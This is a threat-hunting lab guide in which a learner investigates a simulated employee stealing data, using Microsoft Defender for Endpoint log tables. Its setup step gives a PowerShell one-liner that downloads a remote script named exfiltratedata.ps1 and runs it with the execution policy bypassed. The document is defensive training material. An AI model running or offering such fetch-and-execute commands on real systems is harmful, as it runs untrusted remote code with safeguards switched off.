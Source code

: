 # Threat Hunt Report: Data Exfiltration from PIP'd Employee

## Investigation Scenario: Data Exfiltration from PIP'd Employee

Create a VM and onboard it to MDE if you haven't already — Do not use `labuser`/`Cyberlab123!` for credentials (or any other easy password). Your VM will most certainly get breached by a bad actor if it’s on long enough. This has already happened once.

Run this PowerShell command on your VM after onboarding it to MDE:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```

-----

## 1\. Preparation

**Goal:** Set up the hunt by defining what you're looking for.

An employee named John Doe, working in a sensitive department, recently got put on a performance improvement plan (PIP). After John threw a fit, management has raised concerns that John may be planning to steal proprietary information and then quit the company. Your task is to investigate John's activities on his corporate device (`windows-target-1`) using Microsoft Defender for Endpoint (MDE) and ensure nothing suspicious is taking place.

**Activity:** Develop a hypothesis based on threat intelligence and security gaps (e.g., “Could there be lateral movement in the network?”).

**Hypothesis:** John is an administrator on his device and is not limited on which applications he uses. He may try to archive/compress sensitive information and then send it to a private drive or something.

-----

## 2\. Data Collection

**Goal:** Gather relevant data from logs, network traffic, and endpoints.

Consider inspecting process activity as well as the file system for anything that matches the compression or exfiltration of data.

**Activity:** Ensure data is available from all key sources for analysis.

Ensure the relevant tables contain recent logs for your virtual machine:

  * `DeviceFileEvents`
  * `DeviceProcessEvents`
  * `DeviceNetworkEvents`

-----
